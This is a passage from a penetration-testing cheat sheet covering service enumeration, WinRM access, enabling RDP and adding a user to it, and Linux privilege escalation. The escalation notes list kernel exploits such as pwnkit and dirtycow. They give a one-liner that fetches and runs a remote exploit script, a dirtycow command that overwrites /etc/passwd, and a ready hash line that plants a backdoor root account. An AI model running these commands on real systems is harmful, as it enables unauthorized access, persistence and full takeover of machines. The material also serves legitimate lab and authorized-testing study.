 - `nmap -Pn --script "pop3-capabilities or pop3-ntlm-info" -sV -p{PORT}`
- Dump
    - `PGPASSWORD="{PASSWORD}" pg_dump {DB_NAME} > test.dump`
### FTP
- Home FTP
    - [Home FTP Server 1.12 - Directory Traversal](https://www.exploit-db.com/exploits/16259)
    - [Home FTP File Download](https://webcache.googleusercontent.com/search?q=cache:92M05_e2PYcJ:https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/0911-exploits/homeftpserver-traversal.txt+&cd=4&hl=zh-TW&ct=clnk&gl=tw&client=firefox-b-d)
- FileZilla
    - Default password location
        - `C:\Program Files\FileZilla Server\FileZilla Server.xml`
        - maybe `(x86)`
- WINRM (5985 port)
    - `sudo gem install evil-winrm`
    - `evil-winrm -t {IP} -u {User} -p {pass}`
### RDP
- Enable
    - `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
    - `netsh advfirewall firewall set rule group="remote desktop" new enable=yes`
- Add User To RDP Group
    - `net localgroup "Remote Desktop Users" "{USER_NAME}" /add`
## Privilege - Linux
### Kernel Exploit
- [CVE-2017-16995](https://github.com/rlarabee/exploits/tree/master/cve-2017-16995)
    - Test on Kernel 4.4.0 (4.4.0-116-generic)
    - `gcc cve-2017-16995.c -o cve-2017-16995`
- [CVE-2012-0056 (memodipper)](https://github.com/lucyoa/kernel-exploits/blob/master/memodipper/memodipper.c)
    - `gcc memodipper.c -o m.out`
- [CVE-2010-2959 (i-can-haz-modharden)](https://raw.githubusercontent.com/macubergeek/ctf/master/privilege%20escalation/i-can-haz-modharden.c)
- Compile for old OS
    - `gcc -m32 ./{INPUT.c) -o {OUTPUT} -Wl,--hash-style=both`
- [CVE-2021-4034 (pkexec) (pwnkit)](https://haxx.in/files/blasty-vs-pkexec.c)
    - `gcc blasty-vs-pkexec.c -o meow`
    - `source <(wget https://raw.githubusercontent.com/azminawwar/CVE-2021-4034/main/exploit.sh -O -)`
- [2016-5195 (dirtycow)](https://www.exploit-db.com/download/40611)
    - ```
      gcc -pthread 40611.c -o dirtycow
      ./dirtyc0w /etc/passwd "root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash
      "
      ```
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
#### Enumeration
Scan the system to find which can be use for privileges escalation
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LSE](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux-Exploit-Suggester (LES)](https://github.com/mzet-/linux-exploit-suggester)
### Tips
- Writable `/etc/passwd`
    - Append `root1:yeDupmFJ8ut/w:0:0:root:/root:/bin/bash` to file
        - `root1` : `meow`